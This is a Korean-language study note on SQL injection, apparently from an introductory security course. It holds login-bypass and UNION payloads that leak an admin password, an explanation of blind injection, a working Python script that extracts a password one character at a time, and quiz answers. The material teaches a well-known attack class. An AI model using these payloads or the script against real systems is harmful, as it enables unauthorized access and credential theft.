# SQL Injection  
**SQL Injection** : DBMS에서 사용하는 **쿼리를 임의로 조작**해 데이터베이스의 **정보를 획득**하는 공격  
**인젝션 공격** : **이용자의 입력값**이 **구조**나 **문법적인 데이터**로 **해석**되어 발생하는 취약점  
  
  
다음은 SQL Injection 의 예시입니다.  
원래는 맨 위에 있는 것처럼 요청을 보내서 색깔을 지정한다. 
그러나 **올바르지 않은 요청**을 보내서 **의도하지 않은 행위**(공장 가동 종료 등)를 하게 하는 것을 **인젝션** 이라고 한다.  
## SQL Injection  
웹 서비스에서 ID/PW 를 포함해서 **로그인**을 할 때, **게시글**의 제목과 내용을 적고 **게시**를 할 때, **ID/PW 나 제목/내용** 을 **SQL 구문**에 넣습니다.  
   
위의 Figure 2 는 로그인 할 때, 질의하는 SQL 구문에 입력한 id, pw 가 포함된 것을 알 수 있습니다.  
-> 이를 SQL Injection 이라고 합니다.  
반면에 Figure 3 는 SQL Injection 을 통해, id 가 admin 이면, pw를 확인하지 않게 조작을 했습니다.  
## Simple SQL Injection  
   
다음과 같이 데이터베이스 **user_table** 과 **login 하는 실습창**이 있습니다.  
위와 같이 **uid, upw** 에 **guest** 를 적으면, 아래에 있는 **SQL 구문에 들어가는 것**을 볼 수 있습니다.  
현재 admin 으로 로그인하고 싶은데 upw 를 몰라서 할 수 없다.  
그러나, 이를 잘 이용해서 **upw를 확인하는 곳을 주석 처리**하면 **uid 가 admin 인 경우에 로그인** 할 수 있다.  
참고로 주석은 --, #, /**/ 등이 있습니다.  
   
다음과 같이 입력해서 upw 확인하는 곳을 주석 처리하면 로그인이 돱니다.  
여기서 이 실습은 admin의 upw 을 알아내는 실습입니다.  
SQL 에는 **UNION** 이라는 연산자가 있습니다.  
UNION 은 **두 개 이상의 결과 집합을 결합**합니다.  
즉, 앞에는 admin 에 대한 uid 를 조회하는 구문이므로 위에 admin에 대한 upw 를 조회하는 구문을 입력해 UNION 하면 된다.  
   
그래서 공격 쿼리문을 **admin' UNION Select upw from user_table where uid='admin'--** 과 같이 적었다.  
그 결과 SQL 구문이 **Select uid from user_table where uid='admin' UNION Select upw from user_table where uid='admin'--' and upw='12345'** 로 변했고, admin 의 upw 인 **strawberry** 가 나온 것을 알 수 있다.  
## Blind SQL Injection  
    
Blind SQL Injection 는 위에 있는 그림처럼 DBMS 의 **질의 결과**를 이용자가 화면에서 직접 **확인하지 못할 때** **참/거짓 반환 결과**로 **데이터를 획득**하는 공격 기법이다.  

## Blind SQL Injection 예시  
ascii : 입력받은 **문자를 아스키 코드로** 반환하는 함수  
substr : 입력받은 **문자열에서 지정한 위치부터 길이까지의 값**을 가져오는 함수  
```SQL
substr(string, position, length)
substr('ABCD', 1, 1) = 'A'
substr('ABCD', 2, 2) = 'BC'
```
  
위의 코드가 Blind SQL Injection 공격 쿼리이다.  
2, 3번째 줄을 보면, upw의 첫번째 문자가 r, s 인지 물어본다.  
그리고 6, 7번째 줄을 보면, upw의 두 번째 문자가 s, t 인지 물어본다.  

## Blind SQL Injection 공격 스크립트  
Blind SQL Injection은 한 바이트씩 비교하여 공격하는 방식이기 때문에 많은 시간이 걸린다.  
이 때, 파이썬에서 **requests** 라는 라이브러리를 통해 좀 더 수월하게 할 수 있다.  
   
Figure 5 는 GET 메소드를 이용하는 방식으로 14번째 줄에서 for문을 통해 자동으로 질의를 할 수 있다.  
Figure 6 도 마찬가지인데, POST 메소드를 이용한다.  

## Blind SQL Injection 스트립트 작성  
```python
#!/usr/bin/python3
import requests
import string
# example URL
url = 'http://example.com/login'
params = {
    'uid': '',
    'upw': ''
}
# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
tc = string.ascii_letters + string.digits + string.punctuation
# 사용할 SQL Injection 쿼리
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
# 비밀번호 길이는 20자 이하라 가정
for idx in range(0, 20):
    for ch in tc:
        # query를 이용하여 Blind SQL Injection 시도
        params['uid'] = query.format(idx=idx+1, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        # 응답에 Login success 문자열이 있으면 해당 문자를 password 변수에 저장
        if c.text.find("Login success") != -1:
            password += ch
            break
print(f"Password is {password}")
```
비밀번호를 알아내기 위해 Blind SQL Injection 을 하기 위해 위와 같이 코드를 짤 수 있다.  
먼저 비밀번호는 알파벳과 숫자, 특수 문자로 이뤄진다.  
아스키 범위로 나타내면 32부터 126까지의 모든 문자이다.  
**for idx in range(0, 20):** 를 보면, 20자리 이하의 비밀번호를 찾을건데, **params['uid'] = query.format(idx=idx+1, val=ord(ch)).strip("\n")** 를 통해 query를 계속 바꿔서 Blind SQL Injection 을 한다.  
그래서 로그인에 성공하면, password 를 보여준다.  
# 퀴즈  
```SQL
SELECT * FROM accounts QHERE user_id='admin' and user_pw='(A)'
```
1. 다음 SQL Query의 (A) 부분에 입력 값을 넣을 수 있다고 할 때, id가 admin 계정으로 로그인이 가능한 SQL Injection 페이로드를 모두 고르시오.  
답 : **' or 1=1-- 1**, **'+(select user_pw from accounts where user_id='admin')+'**  
2. 실습 모듈에서 획득한 admin의 비밀번호는 (A) 입니다. (A)에 들어갈 말로 올바른 것은?   
답 : strawberry  
3. 다음 중 일반적인 상황에서 SQL Injection으로 할 수 없는 행위를 고르시오. (MySQL 기준)  
답 : 내부망 침투하기  
